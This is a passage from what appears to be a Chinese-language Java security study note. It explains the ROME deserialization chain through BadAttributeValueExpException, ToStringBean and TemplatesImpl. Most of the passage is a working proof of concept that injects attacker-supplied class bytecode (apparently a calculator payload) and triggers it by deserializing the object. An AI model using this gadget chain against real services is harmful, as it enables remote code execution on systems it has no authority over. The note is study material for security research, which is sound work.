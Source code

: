 ```java
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```

‍

‍

### BadAttributeValueExpException利用链

‍

利用链

```java
BadAttributeValueExpException#readObject() -&gt; ToStringBean.toString(String) -&gt; TemplatesImpl.getOutputProperties()
```

‍

```java
package ROME;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class ROME_BadAttributeValueExpException {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templatesimpl = new TemplatesImpl();

        byte[] payloads = Files.readAllBytes(Paths.get("D:\\Security-Testing\\Java-Sec\\Java-Sec-Payload\\target\\classes\\Evail_Class\\Calc_Ab.class"));

        setValue(templatesimpl,"_name","aaa");
        setValue(templatesimpl,"_bytecodes",new byte[][] {payloads});
        setValue(templatesimpl, "_tfactory", new TransformerFactoryImpl());

        ToStringBean toStringBean = new ToStringBean(Templates.class,templatesimpl);

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(123);

        setValue(badAttributeValueExpException,"val",toStringBean);

        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }

    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void  serialize(Object obj) throws IOException {
```